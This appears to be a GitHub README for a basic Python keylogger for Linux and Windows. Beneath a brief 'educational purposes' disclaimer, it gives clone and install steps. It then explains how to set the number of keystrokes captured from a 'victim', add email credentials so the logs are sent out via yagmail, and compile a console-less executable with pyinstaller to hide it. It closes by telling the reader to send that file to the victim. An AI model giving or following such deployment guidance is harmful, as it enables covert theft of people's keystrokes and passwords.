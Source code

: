# keylogger
Basic keylogger for Linux and Windows

# Disclaimer
```
Do not use this for black hat purposes
this created just for educational purposes
```
# how-to-install
Clone the repository
```
git clone https://github.com/Cli3nt-ctrl/keylogger/
```
Change the directory
```
cd keylogger
```
Install the reuired python libraries
```
pip3 install requirements.txt
```

# how-to-use
open keylogger.py and enter the number of letters you wanna capture through victim
```
Enter the numbers here in the if loop :-- if len(a)==10 (default value is set as 10)
```
Enter your email id and password here
```
yagmail.SMTP(user='',password='')
```
Using the pyinstaller is optioanl. Pyinstaller creates your python file into executable format (.exe in  Windows and .elf in Linux) which also makes your python file unreadable
```
pyinstaller keylogger.py --no-console --onefile 
```
Your executable file will be in dist folder
```
cd dist
```
Send the executable file to your victim

